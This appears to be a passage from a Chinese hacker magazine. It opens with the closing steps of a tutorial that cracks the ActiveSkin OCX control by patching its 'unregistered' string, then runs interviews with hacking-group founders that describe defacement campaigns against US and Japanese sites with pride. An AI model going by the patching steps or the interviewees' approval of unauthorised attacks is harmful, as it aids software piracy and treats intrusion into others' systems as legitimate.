打开测试程序，破解成功，没有再弹出未注册信息提示！下面我们使用 UltraEdit32 将注册码信息“! UNREGISTERED. !”修改成我们需要的字符串，如：“KINSON”。在 UltraEdit32 中搜索字符串“! UNREGISTERED !”，如图 5 所示。


图 5

将其替换成“KINSON”即可，不足的位置用 00 填充，如图 6 所示。


图 6

哈哈，成功破解了该 OCX 控件，方法是不是简单多了？

（本文涉及到的 ActiveSkin，光盘有收录）


# 黑客人物面对面

## 邪恶八进制安全小组之冰血封情


**sagi：** 冰血封情，你好，能不能先向各位读者介绍一下自己？

**冰血封情：** 好的，我是 www.EvilOctal.com 邪恶八进制安全小组的站长，现在为桂林电子工业学院的一名计算机大三的学生。

**sagi：** 邪恶八进制安全小组，这个名字好怪哟，有什么特别的意义吗？

**冰血封情：** 八进制最早是国外的一个内部组织，组织里绝大部分是华人，我高中时候的一个好朋友是小组的成员之一，他后来去了美国，认识了小组的一些成员，于是在他的介绍下，我加入了这个组织。其实这是一个 Script Kiddies 的黑客组织，后来我那朋友因为读书逐渐不干了……后来又发生了一些不愉快的事情。就这样我就在国内自己建立了这个邪恶八进制小组，只是怀念，加了邪恶的目的是因为 EST 中文读法和 1ST 同音，想激励一下自己；EST 一开始采取内部交流的方式，也是因为模仿他们的原因。

**sagi：** www.EvilOctal.com 邪恶八进制安全小组是成立于什么时候的？

**冰血封情：** 比较准确的时间是 2004 年 8 月份才成立的。

**sagi：** 这么说以前你都是单打独斗了？

**冰血封情：** 我在成立这个安全小组之前是中国黑客联盟的成员，后来是中国暗域网络的成员……我呆过的站 N 多，有挂名嫌疑，所以只说这两个了。这也充分证明了一个问题就是人才共享，因为不够才共享，说明中国的网络安全根基不厚，任重道远……

**sagi：** 那么，你最初是如何接触网络安全或者说是黑客技术的呢？

**冰血封情：** 我家庭条件还可以，所以接触网络比较早，98 年开始拨号上网的时候其实只是对网络技术感兴趣，从没想过去接触安全，更不知道安全是什么，只是对操作系统和网络的操作特别熟，最多也就杀杀毒。在 2001 年，我在报纸上偶然看见黑客这个话题，于是回家上网络搜索了一下，找到了一个叫客家黑客联盟的站。于是第一次接触到了网络安全……黑客技术真的很迷人：）

**sagi：** 那么后来又是什么让你迷恋上了这个技术的呢？或者说这个技术到底对你又有什么样的吸引力呢？

**冰血封情：** 那两年，国内恶意网页、Unicode 漏洞、终端服务的输入法漏洞和空连接正是流行的时候，说 Unicode 漏洞造就了中国一代 Script Kiddies 一点也不过分。它真的就像今天的 SQL Injection 一样的火，而且操作简便，很容易让初学者上手。任何一个有好奇心的人，都很容易被这种探索远方服务器内容的快感所吸引的，我本身也有很浓重的好奇心，因此，一点点地，我越走越深……

**sagi：** 是的，目前活跃在国内黑坛的网络高手有许多都是从 2001 年成长起来的，事实上我也是 2001 年才接触的网络及黑客技术，但是对于目前的网络安全技术或者说是黑客技术，已经不同于 2001 年了。那么你是如何看待近一两年来的网络安全技术的发展呢？

**冰血封情：** 我觉得近两年来，咱们业内的安全技术开始逐渐呈现两极分化，专业性越来越强：

一方面专业安全领域，高手们更加用心踏踏实实地去研究更深的东西，已经不仅仅把目光一味放在实践技术上了，理论、市场、管理等等都开始关注。

另外一方面，非专业安全领域，呈现小组化趋势，这已经和前些年“大联盟”的组织方式大大不同了。

**sagi：** 许多的初学者都感觉到现在学习这类技术，好像是门槛变高了，不再像前几年那样好学了，技术也更难以掌握了，你是如何看待这个问题的呢？

**冰血封情：** 我觉得，任何事物的发展都会越来越系统，这是客观的变化过程。我们的门槛似乎高了，这对于我们来说是一件可喜的事情，证明我们的安全技术领域确实已经进步了。尽管这样，我觉得要是想入门还是不难的，比如注入就很好学呀，毕竟这是应用层的东西。不过还是推荐大家从基础开始学，不要急于做一个 Script Kiddies，我当初就选择了一条不正确的路线。当然，如果你只是想玩玩 hacking 那就另当别论了。

**sagi：** 那么，对于广大的初学者朋友来说，要如何才能更好地掌握网络安全（黑客）技术呢？

**冰血封情：** 我觉得，做 Script Kiddies 是提起你的兴趣，毕竟兴趣是最好的老师，但是真正地好好钻研下去，认认真真扎实地学好一门编程语言是很必要的基础，像业内很多高手他们都有一把过硬的语言。只有这样才能做到，知其然，知其所以然。……说得不是很好，很多编程语言都接触过，但是都不精。另外，一定要多实践，你会总结出和别人不同的技术经验来，这样交流才有意义。理论是枯燥的，它是指引技术的一个风向标而已。

如果你想做个真正的黑客，C 和汇编是不可缺的……

**sagi：** 在网上你也经常与这个圈子里的朋友交流吗？

**冰血封情：** 是的，dahubaobao、风泽、冰狐浪子、Bidevore、Etern4lCn、无敌最寂寞、Sunwear 等，好多都是我很好的朋友……

**sagi：** 你曾经加入过国外的黑客小组，那么现在还与国外的同行经常交流吗？

**冰血封情：** 是的，这是很平常的，但是我不喜欢用 ICQ 和 MSN，一般都是 Email 交流……

**sagi：** 那么国外与国内的同行之间的技术水平有差距吗？

**冰血封情：** 个人感觉，应该说学术界差距比较大，但是在专业安全方面，就技术来说国内的顶尖好手还是与国外基本持平的……Lion 和 isno，还知道我们的安全焦点。但是毕竟我们的客观条件有差距，很多的时候是环境的原因造成技术落后的。

**sagi：** 网络安全是一门涉及范围很广的技术，包括硬件诸如防火墙路由器、服务器的设置与维护、服务器的安全检测或入侵检测、网络程序的编写、程序的保护与破解、密码学等等，而网络攻击只是其中涉及到的一个部分……

**冰血封情：** 网络安全技术的确是咱们国家一门新兴边缘学科，通过我自己的学习感触，我觉得一开始不要去刻意选择某个方向……Linux 创始人托瓦兹的“Just for fun”是很有道理的。

**sagi：** 可以说，网络安全技术虽然也在国内发展了好多年了，但是仍然属于一门新兴的学科……你认为该如何才能解决这个问题呢？

**冰血封情：** 我觉得，在网络安全的问题上冲突比较小，目前国内已经有好几所重点大学开设了相关专业，而且国家已经把信息安全列为“十五期间”的重大科技专项……

**sagi：** 除了网络之外，你还有没有别的爱好？

**冰血封情：** 挺多的，美术、篮球我都挺喜欢……

**sagi：** 可以公布一下你的联系方式吗？

**冰血封情：** 大家可以通过我的 QQ 124839278 和我联系……也可以到邪恶八进制安全小组来找我 www.EvilOctal.com……


## wolfboy

**sagi：** wolfboy 你最早接触网络安全是从什么时候开始的呢？

**wolfboy：** 我是于 2003 年 11 月，也就是初一的时候才开始接触网络安全的。

**sagi：** wolfboy 你先向各位朋友介绍一下自己吧！

**wolfboy：** 各位哥哥、姐姐好，我是 wolfboy，大家可以叫我狼孩；很高兴，今天也可以跟大家来一次亲密接触，我今年 14 岁，是一个初二的学生，但是我很喜欢网络安全！

**sagi：** 我想象你这个年龄的大多数同学，玩得最多的还是网络游戏，你为什么会选择枯燥的网络安全技术呢？

**wolfboy：** 呵呵，你可能想错了，其实一开始我也是玩网络游戏，只是天天听人说，学黑客可以偷网络游戏的 ID，所以我才开始学……后来，当我真正开始学的时候，才明白原来黑客不是我一开始想象的那样。

**sagi：** 那你眼中的“黑客”又该如何理解呢？

**wolfboy：** 现在我认为黑客代表的是一种精神；是一种不懈努力的精神。

**sagi：** 我想有许多年龄和你差不多的朋友最感兴趣的是，当他们想学习黑客技术，或是想成为一个令人羡慕的黑客高手的时候，却不知道自己该从何下手，该如何学习？你能谈谈你当初是如何学习的吗？或者是说你学习的方法？

**wolfboy：** 其实我学习的方法是最笨的方法，但我想也可能算是最好的方法了，就是要先对网络安全产生兴趣……有了兴趣，你就会有追求，这样就有了动力。我最开始学习的时候就是叫我老爸帮我去中山大学办了个借书证，然后每到周末，我都会整天去那里看一些编程的书（C 语言），刚开始时，真的是丈二和尚摸不到头脑，后来天天看，看得多了，慢慢地就熟悉 C 语言了。

**sagi：** 这么说你的 C 语言完全是自学的了？

**wolfboy：** 对，完全是自学。

**sagi：** 你最初接触 UNIX、Linux 是什么时候？

**wolfboy：** 是 2003 年 3 月份，那个时候之前，我学了汇编和 Win32 下的编程，写了一些小东西，但拿给别人看，他们都认为是垃圾。当时我很郁闷，整天泡在网上去黑别人的网站，想证明自己的实力。后来认识了半条命，是他教导了我，于是我反省过来……我还年轻，我还有很多路要走，我不可以荒废，于是我选择了 UNIX、Linux。

**sagi：** 对于许多初学者朋友来说，接触最多还是关于 Windows 下的安全问题，而只要一提到 UNIX、Linux，他们就会认为那是非常难学的东西，你是如何看待这个问题的呢？

**wolfboy：** 没错，UNIX、Linux 的确比 Windows 要难一些，但是大家想想，其实这和学英语有什么不同呢？小时候我们学一门语言，大人们说什么我们跟着说什么，不就学会了吗？学英语是这样，学 UNIX、Linux 也是这样，就好像刚开始接触电脑学 Windows 一样，用对待 Windows 的心态去对待 UNIX、Linux，你就会发现，其实它们也不是那么难学的。

**sagi：** 你认为对于那些喜爱网络安全技术的初学者朋友来说，他们要怎样才能学好网络安全技术呢？

**wolfboy：** 嗯，这个问题，我刚才说过，要多看书多努力，看不懂的再看第 2 遍、第 3 遍、第 4 遍，要是还看不懂的话，看点其他的，以后再来看的时候你会发现你突然懂了。不过，光是看书是没有用的，这不成了书呆子了吗？应该学习与实践相互结合，这样的话才可以做到事半功倍。

**sagi：** 对于国内的网络安全现状，你是如何看的？

**wolfboy：** 我觉得国内的网络安全技术缺少创新，就连工具有很多都是国外的，比如 SQL 漏洞，这个是国外几年前的话题了，而我们却还在搞……什么 nmap 呀，国外的人能写，我们就不能写出更好的吗？还有一点就是国内的脚本小子实在太多；他们整天黑站过日子，这 3.0 多万的脚本小子，如果并驾，不去黑什么站，去好好学习的话……相信国内的安全实力一定大增。

**sagi：** 你的家人、老师和同学知道你学习网络安全（黑客）技术吗？他们又是怎么看待这个的？

**wolfboy：** 他们都知道，我首先感谢我的家人一直以来对我的支持与鼓励……对于老师，他对我也很关心，老师也知道我学网络安全，他不是一个古板的人。他明白黑客是好人，不像骇客，不过他一直提醒我要注意学习安全和本身的学业要协调，不要荒废了学业……同学们现在都很想跟我学习安全技术……对我很好，他们在学习上和安全技术上都经常跟我交流！（有这么多理解、支持自己的家人、老师、同学，sagi 好羡慕哟！）

**sagi：** 同圈子里的朋友你也经常交流吗？

**wolfboy：** 交流不多，我很少跟圈子里面的朋友交流，我甚至只认识几个圈子里面的朋友，在网上交际不是很好，可能是我一个最大的弱点，我以后会改正这个毛病的。

**sagi：** 我想，你的家人和老师一定不知道你黑了这么多的网站吧？

**wolfboy：** 呵呵，不过说实话，我很少黑别人网站的，我一般都是为了实验新的想法是否正确而去别人的网站做做测试。

**sagi：** 你以后会把网络安全当成一种业余爱好还是当成一种专业来发展呢？

**wolfboy：** 我想我会把它当成一种事业来发展，从刚开始理解到黑客的含义，我就深深地爱上了网络安全这块乐土，我想我很难离开它！

**sagi：** 可以公布一下你的联系方式吗？肯定会有许多朋友想同你联系，共同探讨网络安全技术，或是向你请教该如何才能更好地掌握这门技术的。

**wolfboy：** 好的，我的 e-mail 是 hackerpeng@163.com，另外我再给大家拜个年，祝大家鸡年快乐，网技多多！

## 曾经的枫三少


**sagi：** 枫三少，你好，先向各位读者朋友们介绍一下自己吧！

**枫三少：** 各位朋友，你们好，我是枫三少，四川人，职业嘛！呵呵，姑且算是一个自由职业者，呵呵！

**sagi：** 三少，你是从什么时候起开始接触的网络安全技术呢？

**枫三少：** 我接触电脑是在初中时期，也就是 97-98 年间吧；接触网络安全技术是在 2001 年。

**sagi：** 看来，你接触网络安全的时候和我差不多呀，三少，你当初怎么会喜欢上网络安全技术呢？

**枫三少：** 有一次我 QQ 被偷了，心里很不爽，很愤怒！后来感觉网络安全挺带劲的！而且我自己的性格也是比较崇尚自由与共享，但在现实中却又往往无法实现，所以我就想打破那个所谓的没有自由、不共享……

**sagi：** 那你又是从什么时候开始学习的脚本技术呢？

**枫三少：** 好像是从 2002 年吧；其实当时学的也不光是脚本，很杂，只要有书我就看，不过大多是学校的一些教程。脚本技术还是从孤独剑客的网站被 NEVER 渗透了的时候才开始学习的。

**sagi：** 然后就开始把自己的学习重点都放在了脚本上，是吧！

**枫三少：** 算是吧，主要是这个不需要什么工具，因为当时我基本上都是在网吧里上网，也不方便装太多的工具。

**sagi：** 那你当时是怎么学习的脚本技术的呢？或者说你的学习方法、学习经验，我想这个问题，许多读者都是很关心的。

**枫三少：** 笼统点讲就是多看多实践。我不会写文章，因为我觉得方法是死的，招术其实就那么多，关键是看自己能否灵活运用。有些方法必须要自己实践、亲身体验后才能够领悟，并且可以找到一些属于自己的东西，这就是所谓的必杀技。

**sagi：** 枫三少，你认为要想熟练地掌握脚本攻击技术，需要掌握哪些基础的知识呢？

**枫三少：** 数据库的知识是必然的啦！还有就是网络的传输协议，比如为什么提交个错误的信息就返回错误的提示。这个比较抽象一点，我举个例子说明。比如作为一个客户端要访问一台服务器上的资源，是怎样来向服务器发起申请，然后服务器是怎样来处理并将结果返回给客户端的。

再则就是要有一定的编程功底；比如你要入侵一个 ASP 网站，你连 ASP 是怎样写的都不知道，你怎样去破坏那个源码使它出错呢？

很多人觉得学习这类的东西，当然包括计算机，都是讲究灵活运用，但事实上是你掌握的知识应该到了一定的基础上之后才能够做到这一步的。这就像你连乘法口诀表都不会背，又如何去计算数学运算呢？

**sagi：** 2004 年的时候，你在网络上挺活跃的，可是后来，好像突然的一下子就销声匿迹了，为什么呢？

**枫三少：** 这样说吧，当时的我确实有点儿冲动，我不想否认这点，但是更多的还是因为我看不惯某些人。我觉得好多地方都是在骗钱，交了钱却什么都学不到，这不给我们同行抹黑么？还有就是看不惯某些自持手中掌握了一些技术，就总是做出一副高高在上的样子，好像自己就真的是天下无敌了一样。对于这些现象，我看不惯，甚至是非常的反感。

后来不上网是因为我也体会到，当你稍有点所谓的名气（这里我说下，我没啥名气），网上的麻烦事跟着就来了，而我脾气也不是太好，急了就管不住自己了，会发火。这样自然也就无意中与一些人有了矛盾。

另外就是现在的什么什么收费网站，就像雨后春笋一般地冒了出来，但真正让我感觉到不错的也就那么几家。虽然还是有点看不顺眼，可还是……

毕竟自己不是超人，更不是圣人，既没那个权利也没那个经历。比我优秀的人比比皆是。再说了，2004 年的时候就因为某些事与许多人产生了矛盾，过腻了以前的那种日子，所以才有了销声匿迹的想法与做法。

当时还有一个主要的原因就是觉得自己跟别人比起来懂的东西真的很少，2004 年的“活跃”或许应该算是我成长的一个经历吧！现在就打算把技术再系统地学习一下，因为以前学得很杂，然后准备彻底向底层与编程方向上发展！

其实我的水平并不怎么样，当时有很多人要拜师，我都拒绝了。不管当时别人对我的评价是怎样，我始终认为我掌握的技术比起前辈们来真的差得太远，我没那个能力教人，我只能是误人子弟，所以我就拒绝了。

# 黑客人物面对面

**sagi：** 能不能谈谈你对当前国内网络安全的看法？

**枫三少：** 现在的网络安全技术站点比以前要好很多，起码大的组织基本上都定型了。不过仍然有些打着 X 客的组织，站点存在……很多个人站点现在感觉做得也挺不错的……

还有就是收费网站，现在很多大站都是从小站或者个人网站慢慢发展起来的，管理员都是无偿的，但站点大了、东西多了没地方放，就会适度收费……

**sagi：** 你同国内外的同行交流得多吗？

**枫三少：** 交流谈不上，准确说是学习……经常从他们那里学到很多技术，也包括生活方面的东西……

**sagi：** 那么，以后你打算把网络安全当成自己的一项职业吗？

**枫三少：** 不一定……毕业后就先找个工作多学习一下，等到有条件了，也觉得自己掌握得差不多了，就准备搞个公司什么的，我想还是会跟网络有关的……

我学电脑是因为以前家境不好，就想偷偷学点技术快点出来赚钱……对于技术来讲，越基础的才是越好的，你能懂能掌握、能灵活使用，把它变成自己的东西，其实在别人看来就是权威。

**sagi：** 最后，可以公布一下你的联系方式吗？

**枫三少：** 好的，我的联系方式如下：QQ、MSN、Mail、URL……

说真的，混这么久了，认识了很多圈内志同道合的好朋友……最后留些话给现在努力学习的朋友：不要羡慕别人的成绩，多学、多想、多实践、必要的交流，才是唯一的成功之路！！


20NT 是国内一个专业的网络安全站点，在国内的网络安全界，几乎没有人不知道 20NT 的。本期就让我们来了解一下 20NT 以及 20NT 的站长——浪心！

**sagi：** 浪心，先来向各位朋友介绍一下自己吧！

**浪心：** 我是 20NT 网络安全小组的浪心，还算是擅长编程吧……本人目前还是个学生，一直努力是我的原则……

**sagi：** 浪心，没有记错的话你应该是江苏无锡人吧！

**浪心：** 是的，不过我目前正在辽宁葫芦岛踢足球。

**sagi：** 中超、中甲还是中乙？

**浪心：** 哪里啦，也算是圆自己的梦吧……

**sagi：** 20NT 是什么时候成立的？

**浪心：** 是在 2002 年 12 月 1 日。

**sagi：** 刚开始时，是怎么想起来成立 20NT 网络安全小组的呢？

**浪心：** 在那之前就接触黑客了吧：）后来才想建立自己的站，刚开始时是浪心小站：）后来 20 岁了，想想也不能再是小站了吧，也该大点了，就建立了 20NT。NT 是大家很熟悉的名字，当时我使用 Win2000 系统，每次启动都能看到基于 NT 核心，所以就取名叫了 20NT。

**sagi：** 那你最早是怎么接触黑客的呢？

**浪心：** 算算也该是 2001 年吧：）在那之前一直在学习编程，一次偶然的机会和 GE126 认识了，看了他写的《黑客安全阀》，去了他的论坛，就这样慢慢接触黑客的。

**sagi：** 20NT 组织成立于 2002 年，可以说成立的时间并不早，可是只一两年的时间，20NT 就得到了许多网络安全爱好者的认可，这是为什么呢？或者说，20NT 成功的经验是什么？

**浪心：** 怎么说呢，前后一共经历了近 7 次改组，我们一直在寻找适合自己的发展方向。到最后，我们确定了自己的目标：发展自己的原创作品，将复杂的东西简单化，将黑客工具可视化。这些都是大家希望的，很多人就很不喜欢 CMD 下的入侵，对他们来说，可视化的东西更容易接受。然后就是低调，这很重要，一个站低调可以做很多的实事。团结也很重要，如果一个站有很多默默支持你的朋友，那么永远不会倒下去。

**sagi：** 能介绍一下 20NT 的主要成员吗？

**浪心：** 涌无浪心、依冰、sunlion、剑心、紫侠客、TheDayBefore，还有我的好朋友，在编程方面很突出的小韩。这里不能一一写出来，需要感谢所有支持 20NT 的成员，他们一直是我发展的动力。

**sagi：** 你同国内外其他网络安全组织的联系多吗？

**浪心：** 同国内的组织联系还算比较多吧，岁月联盟的站长猪猪、BST 的 boyfriend、安全天使的逍遥都是我很好的朋友：）以前同桂林老兵的联系也很多。

**sagi：** 你是怎么看待网络安全的？

**浪心：** 引用别人的一句话：“一场永远不会结束的战争。”我想他说得很有道理，很多东西需要慢慢研究才能浮现出来。安全提高了，黑客的技术也提高了，永远也回不到那个 3389 的年代了：）新的力量会取代那些古老的技术，我们应该不忘前辈带给我们的帮助，也需要以他们为目标来超越自己。

**sagi：** 确实，近一两年来，网络安全发展得很快，水平也比过去提高了许多，但同时，新病毒、新漏洞、新的攻击方法也层出不穷，你又是如何认为的呢？

**浪心：** 举一反三，虽然只是一个漏洞，我们却可以将它扩展到其他方面，比如旁注入侵方面，同样的原理，却利用于不同的系统。中国的黑客从不缺乏思维，所以在这个领域我们的思维异常活跃。黑客这个名词被很多人所接受，黑客类的杂志也开始变多，这都从某种程度上推动了中国黑客的发展。

**sagi：** 随着近一两年来网络安全水平的提高，对于许多爱好网络安全的初学者来说，常常会感觉到自己无从下手、无从学起。许多以前很常用的方法，现在都很难成功了，你是如何看待这个问题的呢？

**浪心：** 黑客就是技术的结合，计算机分类很多，找一样自己最擅长的，钻研下去，一定能走出自己的一片天空；然后就是多学多看，不懂多问，这些对黑客学习和研究都有很大帮助。就如同一首歌里唱的“没有天生就拿着麦克风”，同样没人天生就是黑客，一切在于自己，努力是必不可少！

**sagi：** 你对于网络安全的未来发展如何看待呢？

**浪心：** 低龄化吧，很多年轻的一代会取代上一代，这是必然的趋势。总之，只要计算机存在一天，黑客就不会消亡：）未来的黑客技术会走上一个更高的层次，一些现在无法想到的黑客技术也会浮现出来。

**sagi：** 网络安全发展到今天，意义及价值早已经超过了最初的纯技术，黑客攻击及病毒造成的危害越来越大。你认为对于目前的网络用户，包括个人用户来讲，要如何才能更好地保护自己呢？

**浪心：** 注意给自己的系统升级，多使用系统的 update，安装网络防火墙，空着的时候多杀杀毒，这些都是很有效的预防方法：）良好的习惯，注意备份，即使被黑客入侵了，重要资料也能在第一时间恢复：）

**sagi：** 你现在上学，有充足的时间来管理网站吗？

**浪心：** 确切的回答是没有太多时间，这也就是为什么 20NT 目前只有一个论坛的原因。我希望更多时间来写自己的作品，但是 20NT 是我精神的支柱，我不会让它就这么倒下，我们希望用自己的作品来证明自己！

**sagi：** 毕业后有没有定下自己的发展目标，是足球呢，还是网络安全？呵呵。

**浪心：** 我的足球梦已经圆了，以后我想会在计算机方面发展：）

**sagi：** 可以留一下你的联系方式吗？也好方便许多网络安全爱好者们向你请教这方面的问题。

**浪心：** 大家可以去 http://www.20nt.net/，同组织里的其他人一起交流，也可以直接加我 QQ：423711099。

最后感谢所有支持我的人，包括我的女朋友，他们的支持永远是我不断进取的动力！

**sagi：** 最后也感谢浪心，希望 20NT 网络安全小组发展得更好！为国内的许多网络安全爱好者提供一片美好的学习天堂！

## 中国黑客联盟（C.H.U）

### Snakebin 采访记


中国黑客联盟（C.H.U）是中国著名的电脑黑客组织之一，也是 2001 年中美黑客大战中，中国方面的三大主力之一，站长 Snakebin 更是中国早期的著名电脑黑客。对于目前的许多网络新手来说，中国黑客联盟（C.H.U）是陌生的，Snakebin 是陌生的，而曾经的那段激情、那段历史更是陌生的。本期就让我们走进神秘的中国黑客联盟（C.H.U），走进高手 Snakebin 的网络岁月！

**sagi：** Snakebin，你好，先向各位读者朋友简要地介绍一下自己吧！

**Snakebin：** 好的，各位读者，你们好，我是 Snakebin，今年 28 岁，江西南昌人，1996 年开始接触互联网，1999 年创建了中国黑客联盟，2002 年时由于私人和工作原因，放弃了黑盟的工作，也因此黑盟一直处于半关闭状态。

**sagi：** 算起来，你也属于国内最早接触网络的那一批人了，当初又是什么让你选择了网络安全呢？

**Snakebin：** 刚接触网络的时候，“黑客”是个非常陌生而又充满了神秘的词语，很少有人知道，我当时也是冲着这个神秘的字眼才选择了网络安全。

**sagi：** 那么，你最早是如何学习黑客技术的呢？当时的网络安全（黑客）网站以及关于网络安全（黑客技术）的图书在国内也并不像现在这么丰富。

**Snakebin：** 是的，其实那时我并不是很了解黑客，国内也基本上没有黑客方面的网站或书籍。我和大多数人一样，也是由对病毒的兴趣转过来的，当时黑客对我来说很神秘，也是很崇拜的。

**sagi：** 又是什么原因让你选择成立了中国黑客联盟（C.H.U）呢？

**Snakebin：** 没什么特别的原因，接触网络后，慢慢地我接触到了一些从事这方面研究的朋友，大家经常一起讨论到深夜。就这样我们成立了一个小组，也有了我们的第一个黑客网站，然后就这样慢慢地从一个普通的黑客安全站点转变为了联盟。

**sagi：** Snakebin，在 2001 年 4 月 1 日的中美撞机事件引发的中美黑客大战中，中国黑客联盟是国内的三大主力之一，能给我们讲一讲当时的内幕吗？毕竟你们是亲自参与的，当时肯定也发生了许多事情吧！

**Snakebin：** 当时我们并没有组织和号召，也许是当时我们的体制还比较混乱，我们的成员都是自发攻击，只有其中极少数成员是通过统一组织和分配任务的。从那次以后，我们才意识到联盟组织的必要性，开会讨论后，分配了各主要核心成员和职责，并且按地区进行了会员划分；而且各地区都增加了负责人。

**sagi：** 那么后来，对于那次攻击有没有做过详细的分析及探讨呢？

**Snakebin：** 有讨论过，根据当时的情况，我们成立了专门的对外攻击组，从而在下一次的对日攻击中，我们获得了全胜。

**sagi：** 关于那次攻击，后来的媒体曾经有过许多猜测，主要就是那次攻击中，到底是国内被黑的网站多，还是美方面被黑掉的网站多。

**Snakebin：** 我个人认为是美国被黑的站点多，很多成员采用的都是自由攻击，并没有加入统计之中。

**sagi：** 但是按照实力来讲，网络安全最早出现在美国，而当时网络安全在国内也只能算是刚起步。因此按照这个来讲，应当是相反，国内被黑的多，而美国被黑的少呀。可事实为什么会出现恰恰相反的情况呢？

**Snakebin：** 因为当时大家的防范意识都是很差的，凭借着当时最流行的 UNICODE 漏洞，几乎全民皆兵。我觉得是从那次黑客大战以后，大多数人才逐渐有了网络安全意识。

**sagi：** 但倘若真的比较当时双方攻击的技术水平含量的话，你认为是哪方面的高？

**Snakebin：** 凭心而论，当时还是美国黑客的攻击技术水平平均高出我们很多。

**sagi：** 你是指他们攻击的方法以及被对方黑掉的目标吧！

**Snakebin：** 是的，当时大多数人的攻击方法比较单一，但是凭借我们发扬的资源共享精神，将一些常用的入侵手段文章和黑客工具广为传播，很多没有接触过黑客的人，也能凭借这些东西进行大规模攻击活动，中国人还是很团结的。

**sagi：** 那当时，美国黑客使用的攻击方法都有哪些呢？

**Snakebin：** 其实当时 UNICODE 是无敌的，Win2000 基本上都打过补丁了，他们的攻击手段我也不是太清楚；入侵的大型网站大多是利用 UNIX/Linux 的漏洞之类进去的吧。的确是比我们强，但是我很难说出强在哪里。

**sagi：** 是的，SunOS 5.* 的 rpc 系列远程溢出，当时足以轻松黑掉许多大型的 UNIX 服务器了。

**Snakebin：** 没错，RedHat 的 bind、LPD、UNIX/Linux/BSD 的 telnetd，还有 SunOS 系列的 rpc 等远程溢出漏洞，应该都是当时最常使用的攻击方法了。

大多数人也没有机会接触 UNIX/Linux，很少有这种条件，所以也就造成了进攻手段比较单一，整体的技术含量要比美国方面低。

大家能有一个更好的交流环境，也为了中国黑客能更有组织地进行活动，我们必须选择重新回来。

（访谈正文）

**sagi：** 在那次黑客大战后，国内的网络安全组织如雨后春笋般地多了起来，相关的技术文章及黑客工具也越来越多。后来黑盟为什么关闭？

**Snakebin：** 是的，那次以后大家都对黑客有了进一步认识。后来我们联合蓝客联盟等组织，针对小泉参拜靖国神社而发动过大规模攻击，联盟整体水平有很大提升，也更有组织和正规化。黑客联盟曾发展为百万会员规模，但内部矛盾严重，核心成员小奇独自建立新联盟（后称“假黑客联盟”）。黑盟永远只有一个：www.cnhacker.com。

**sagi：** 黑盟是什么时候关闭的？

**Snakebin：** 2002 年 8 月，已经快三年了。

**sagi：** 那是什么原因让黑盟重新开放？

**Snakebin：** 很多人都怀念当时的黑盟，老成员分布在各大组织中，很多人一直等待黑盟复活。为了让刚接触网络不久的学习者有更好的成长环境，我们决定重开。

**sagi：** 三年里网络安全发展很快，你怎么看当前黑客技术？

**Snakebin：** 在网络中不断创造、探索和前进的中国黑客，不仅要延续旧的黑客精神，还要开拓新的精神：思想民族化、组织正规化、行动统一化。宗旨是营造真正的黑客文化氛围，让黑客技术真正为网络服务。

黑客是在不断尝试入侵中发现漏洞，并及时公开的人。互联网中的文章与工具说明：如果不提高网络安全意识，服务器就会遭到入侵。近三年里，大家对黑客有了更深认识，从公开漏洞中寻求弥补，网络也越来越安全。

**sagi：** 能谈谈黑盟重开后的发展与未来规划吗？

**Snakebin：** 起初仍按原模式发展，从单一教程与反击型组织，逐步转向维护国内网络安全、开发网络软件和共享网络资源的新结构。

**sagi：** 很多网络安全爱好者刚入门，你有什么建议？

**Snakebin：** 不要一步登天，先打基础，再逐步接触黑客与安全；可阅读相关书籍、网上教程，先吃透一篇篇文章，再尝试简单工具。即使第一次不能成功也不要放弃，要在实践中不断探索研究。重点应放在服务器漏洞研究，不只是破解 QQ/邮箱密码。

《黑客 X 档案》内容扎实，覆盖黑客历史与发展，也收集了很多新文章。

**sagi：** 感谢你对《黑客 X 档案》的鼓励。能公开联系方式吗？

**Snakebin：** 我的 QQ 是 39211，但近期忙于网站重开及相关事宜，可能不常在线，请见谅。

**sagi：** 最后感谢中国黑客联盟（C.H.U）的 Snakebin。中国黑客联盟站点 http://www.cnhacker.com 将于月底左右正式开放，让《黑客 X 案》与 C.H.U 携手发展，共创网络安全美好的明天！


又是一年的五月一日，又是一个长长的假期。回首若干年前的中美黑客大战，再由此回溯到 1994 年，真是让人感慨万千、心潮起伏。

> 统，摧垮全球金融秩序和重建新的世界格局，谁也阻挡不了我们的进攻，我们才是世界的主宰。——凯文·米特尼克

### 传说

巡游五角大楼，登录克里姆林宫，进出全球所有计算机系统……

### 神话

在未来的时代里，只有黑客能改变这个世界的所有秩序，无论是经济秩序，还是军事秩序。

# 黑客人物面对面

### 笑谈

传说中的人进了监狱，神话终究是神话。就好比这个“神话有三种：一、神话。二、台湾人的台湾独立。三、国民党的反攻大陆。（李敖）”。所以每当有人对我说“对不起，我是黑客。”我都想吐，并且说：“对不起，我也是黑客。”

### 我们心路的历程

我们把青春献给网络，我们把梦想留给落寞。青春短暂，时光不留，太多的路，太多的曲折和忧伤。

- 1. 时间摧翻了记忆，背叛多情的过去，伤心命运，没有预警，就降临。世界乱了秩序，我的爱难辨明……
- 2. 通往电脑的路不止一条，所有的信息都应该是免费的，打破电脑特权，在电脑上创造艺术和美，计算机将使生活更美好。
- 3. 我一直以为自己是个人才，可是我错了，我不是！我 TMD 竟然是一个天才！
- 4. 我笑他人太疯癫，他人笑我看不穿。宠辱不惊，看花开花落，去留随意，任云卷云舒。
- 5. 白天和夜晚，大量的时间和精力……不再每日每夜地回答你们的问题，不再站在混乱浮躁的舆论前台……

技术不是猴子，网络不是睡觉的床，黑客也不是挣钱的有利手段……“不要问你的国家能为你做些什么，应该问问你能为你的国家做些什么”。在网络的背后做更有意义的事情，默默地，为改善中国残破的网络安全现状。

### 阵营

黑客，红客，蓝客，冷客，幽客；XX 黑客，xx 小组，xx 客联盟，xx 联盟，XX 居，XX 山庄，X 会，XX 兵团，XX 军团，XX 网络，XX 在线，XX 安全网……混乱的阵营，你知道有多少黑客，有多少站点？我不知道，我也永远不想知道……你明白那些文章有多陈旧；你不知道，我永远也不想告诉你……你知道真实的黑客在做什么吗？我可以告诉你……生活：正常的普通的生活！不是在做链接，不是在关心流量，不是在意名字，不是在掺杂名字和口号或者编写歌曲。

### 现实

口号和特色、文章软件、VIP 收费服务、书籍杂志……文章转载，口号承诺，银子口水，名利背后虚假的繁荣？是战国时代，还是三国时期？

### 文化

没有性格，没有主张，没有思想，没有价值，没有文化，没有神……没有文化，老天，哪里来的领袖？

### 谎言

至于那些几乎每个站点都标榜的所谓黑客文化，所谓强大技术实力，那些团结的美梦，那些所谓强大组织力、凝聚力，不过是个天大的谎言。

### 忧思

